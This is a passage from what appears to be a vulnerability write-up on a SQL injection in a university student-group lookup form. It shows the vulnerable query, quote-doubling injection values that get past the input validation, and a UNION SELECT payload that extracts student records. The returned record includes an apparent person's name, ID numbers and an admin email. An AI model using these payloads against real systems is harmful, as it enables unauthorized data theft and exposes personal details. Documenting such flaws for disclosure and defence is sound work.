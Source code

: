 ```sql
SELECT g.groupNumber
FROM group g
INNER JOIN student_has_group ag ON ag.groupId_ag = g.groupId
INNER JOIN student a ON a.studentId = ag.studentId_ag
INNER JOIN group_has_course gc ON g.groupId = gc.groupId_gc
WHERE gc.courseId_gc = '$courseId'
  AND a.enrollmentNumber = '$enrollmentNumber'
  AND a.nationalId = '$searchNationalId'
  AND g.enroll_group = 1
GROUP BY groupNumber DESC
```


The validation might appear sufficient; however, the following values for national ID and enrollment number, respectively, still satisfied those constraints.


- `=2 OR 1=1-- -`
- `'OR ''`


Generating a query like the following:


```sql
SELECT g.groupNumber
FROM group g
INNER JOIN student_has_group ag ON ag.groupId_ag = g.groupId
INNER JOIN student a ON a.studentId = ag.studentId_ag
INNER JOIN group_has_course gc ON g.groupId = gc.groupId_gc
WHERE gc.courseId_gc = '$courseId'
  AND a.enrollmentNumber='' OR ''' AND a.nationalId='=2 OR 1=1-- -'
  AND g.enroll_group=1
GROUP BY groupNumber DESC
```


Because the injection occurs in the enrollment number, it injects an "OR" operator whose effective contents become `'' AND a.nationalId=` due to SQL’s quote-doubling escape, allowing arbitrary SQL to be injected in the national ID position without using quotes in that field.


From here, UNION-based extraction recovered data for any student or even administrator account.


For example, the following national ID and enrollment number values returned complete student records:



```mermaid
%%{init: { "flowchart": { "wrappingWidth": 360 } }}%%
flowchart TD
    B["enrollment number</br></br>*'OR ''*"] --> D["length==6  ✅"]
    C["National ID</br></br>*=2 UNION SELECT CONCAT(STUDENTID, CHAR(32), STUDENTNAME, CHAR(32), nationalId, CHAR(32), ENROLLMENTNUMBER, CHAR(32), SURNAME, CHAR(32), EMAIL, CHAR(32), GROUP) FROM STUDENT WHERE STUDENTID = 10425-- -*"] --> E["quotes removed  ✅"]
    D --> G["UNION SELECT from STUDENT executes"]
    E --> G["UNION SELECT from STUDENT executes"]
    G --> H["**Group identifier lookup response:**</br></br>Student with National ID/Passport:</br>*=2 UNION SELECT CONCAT(STUDENTID, CHAR(32), STUDENTNAME, CHAR(32), nationalId, CHAR(32), ENROLLMENTNUMBER, CHAR(32), SURNAME, CHAR(32), EMAIL, CHAR(32), GROUP) FROM STUDENT WHERE STUDENTID = 10425-- -* </br></br>and with enrollment number:</br>*'OR ''* </br></br>is assigned the group number:</br><mark>10425 José Luis 33333333 000449 Fuertes Castro admin\@fi.upm.es G-553T</mark>"]
```
